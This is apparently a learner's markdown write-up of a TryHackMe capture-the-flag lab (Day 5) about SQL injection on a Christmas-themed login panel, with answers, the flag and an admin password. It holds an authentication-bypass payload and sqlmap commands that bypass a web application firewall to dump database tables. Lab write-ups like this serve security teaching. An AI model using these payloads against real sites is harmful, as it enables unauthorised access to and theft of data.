

# Day 5

Santa's TODO: Look at alternative database systems that are better than sqlite. Also, don't forget that you installed a Web Application Firewall (WAF) after last year's attack. In case you've forgotten the command, you can tell SQLMap to try and bypass the WAF by using --tamper=space2comment

## Someone stole Santa's gift list!


Without using directory brute forcing, what's Santa's secret login panel?

/santapanel




Here we can enter with 'OR 1=1;-- -


How many entries are there in the gift database?

22


What did Paul ask for?

Github Ownership

What is the flag?

```shell
sqlmap -r ~/Documents/Proyectos/try-hack-me/learn/25-days-of-security/day-5/req --tamper=space2comment --dbms=SQLite -T hidden_table --dump --batch
```

thmfox{All_I_Want_for_Christmas_Is_You}

Whats the admin password?

```shell
sqlmap -r ~/Documents/Proyectos/try-hack-me/learn/25-days-of-security/day-5/req --tamper=space2comment --dbms=SQLite -T users --dump --batch
```

EhCNSWzzFP6sc7gB

## Links

- https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap
- https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file